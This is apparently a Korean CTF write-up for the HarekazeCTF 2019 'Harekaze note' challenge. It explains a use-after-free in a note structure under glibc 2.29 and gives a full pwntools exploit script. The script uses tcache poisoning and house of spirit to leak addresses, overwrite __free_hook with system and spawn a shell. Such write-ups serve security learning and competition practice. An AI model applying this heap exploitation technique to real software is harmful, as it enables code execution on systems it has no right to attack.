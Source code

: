 ```yaml
---
title: HarekazeCTF 2019 - Harekaze note
date: 2019-05-19 15:00:53
categories:
- Heap Exploit
- CTF write up
tags:
- Tcache Poisoning
- Glibc 2.29 heap
- Tcache House of Spirit
---
```



```c
1. Create note
2. Write content
3. Show content
4. Delete note
Choice: 
```

계속 워게임을 풀고 있기도 하고,, 요즘 ctf에서 부진한 성적ㅠ 때문에 글을 안쓰다가 다시 쓴다

Glibc 2.29 에서 tcache poisoing 이다.

2.29 는 처음이라 신기했당

tcache 를 free 하면 bk 부분에 tcache 주소를 넣어주고 이걸로 double free 를 체크한다

그래서 그냥 bk 부분을 overwrite 할 수 있으면 익스할 수 있다!



## Vuln

```c
struct note
{
  char title[16];
  __int64 pre;
  __int64 next;
  __int64 *content;
};
```

이런 unlink 구조인데, free 하고 memset 을 하지 않기 때문에 content 부분에서 arbitary read 를 할 수 있다.

구조체를 관리하는 부분에서 bss 영역 주소도 넣어주기 때문에 got로 libc leak 까지 하면된다.

또 delete 할 때, 이 content 부분을 사용하기 때문에 tcache poisoning + house of spirit 을 이용해 bk 덮고 hook 덮으면 된다.



## Exploit

```python
from pwn import *

w = process("./note")
#w = remote("problem.harekaze.com",20003)
ww = ELF("./note_libc.so.6")

sla = w.sendlineafter
sl = w.sendline
sa = w.sendafter

def create(title):
    sla(":","1")
    sla(":",title)

def write(title,size,cont):
    sla(":","2")
    sla(":",title)
    sla(":",str(size))
    sla("Content:",cont)

def show(title):
    sla(":","3")
    sla(":",title)

def delete(title):
    sla(":","4")
    sla(":",title)

for i in range(4):
    create(str(i))

for i in range(4):
    write(str(i),0x28,"w"*0x27)

delete(str(1))
delete(str(2))

create("w")
show("w")

heap = u64(w.recvline()[1:7].ljust(8,"\x00"))
log.info(hex(heap))

for i in range(6):
    create(str(i)*4)

for i in range(3,6):
    write(str(i)*4,0x28,p64(heap-0x20)*5)

delete("4"*4)
delete("5"*4)

create("a")
create("l")

show("l")
w.recvuntil("content: ")

code = u64(w.recvline()[:6].ljust(8,"\x00"))
log.info(hex(code))

free_got = code-0x108

for i in range(10):
    create(str(i)*8)

for i in range(2,8):
    if i == 7:
		write(str(i)*8,0x28,str(i)*0x20+p64(heap+0x4a0))
    else:
        write(str(i)*8,0x28,str(i)*0x20+p64(free_got))

delete("3"*8)
delete("4"*8)

create("l"*8)
create("y"*8)

show("y"*8)
w.recvuntil("content: ")

libc = u64(w.recvline()[:6].ljust(8,"\x00"))-ww.symbols['free']
log.info(hex(libc))

delete("6"*8)
delete("5"*8)
delete("7"*8)

create("wally")
create("wally0813")

write("8"*8,0x28,p64(0x31)*4)

delete("wally")

create("/bin/sh")

write("9"*8,0x28,p64(0xdeadbeef)+p64(0x31)+p64(heap+0x2a0+0x30+0x60)+p64(0))

system = libc+ww.symbols['system']
hook = libc+ww.symbols['__free_hook']

create(p64(hook))
create(p64(hook))
create(p64(hook))
create(p64(system))

delete("/bin/sh")

w.interactive()

```



![KakaoTalk_20190519_011947166](https://user-images.githubusercontent.com/36659181/57976904-a3fb1d80-7a26-11e9-8925-0929f168d045.png)

퍼블 못따서 아쉽다ㅠㅠ!
